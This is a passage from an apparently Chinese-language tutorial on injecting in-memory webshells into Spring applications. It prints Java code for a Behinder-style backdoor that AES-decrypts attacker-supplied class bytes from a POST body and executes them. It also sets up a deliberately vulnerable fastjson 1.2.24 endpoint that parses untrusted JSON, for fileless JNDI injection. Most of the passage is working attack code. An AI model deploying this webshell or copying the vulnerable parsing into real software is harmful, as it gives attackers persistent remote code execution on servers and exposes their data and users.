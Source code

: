 ```java
        }
        else {
            return true;
        }
    }
    public HttpServletResponse behinder() throws Exception {
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        HttpSession session = request.getSession();
        if (request.getMethod().equals("POST")) {
            session.setAttribute("u", this.k);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(this.k.getBytes(), "AES"));
            HelloWorldController helloWorldController = new HelloWorldController(ClassLoader.getSystemClassLoader());
            String base64String = request.getReader().readLine();
            byte[] bytesEncrypted = new sun.misc.BASE64Decoder().decodeBuffer(base64String);
            byte[] bytesDecrypted = c.doFinal(bytesEncrypted);
            Class newClass = helloWorldController.g(bytesDecrypted);
            Map<String, Object> pageContext = new HashMap<String, Object>();
            pageContext.put("session", session);
            pageContext.put("request", request);
            pageContext.put("response", response);
            newClass.newInstance().equals(pageContext);
        }
        return response;
    }
}

```
![image.png](Spring 框架内存马入门.assets/2023_05_19_10_30_54_3ev16QdO.png)



## 无文件落地注入
这里我使用maven添加`fastjson 1.2.24`,使用jndi注入，当`newInsatnce`之后注册路由，并在此路由上绑定对应Controller
### 0x1 jndi 测试
Spring 要解析客户端发送的json数据，大部分是使用`Jackson`,fastjson也可以
首先引入依赖
```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.24</version>
</dependency>
```
然后在Controller里写入由fastjson解析json对象的方法
```java
 @RequestMapping(value = "/testjson", consumes = {"application/json"},
            produces = {"application/json"})
    @ResponseBody
    public String showUserListInJson(HttpServletRequest request,HttpServletResponse response) throws IOException {
        BufferedReader bufferedReader = request.getReader();
        String bodyStr,body = "";
        while((bodyStr = bufferedReader.readLine()) != null){
            body += bodyStr;
        }
        System.out.println(body);
        System.out.println(JSON.parse(body));
```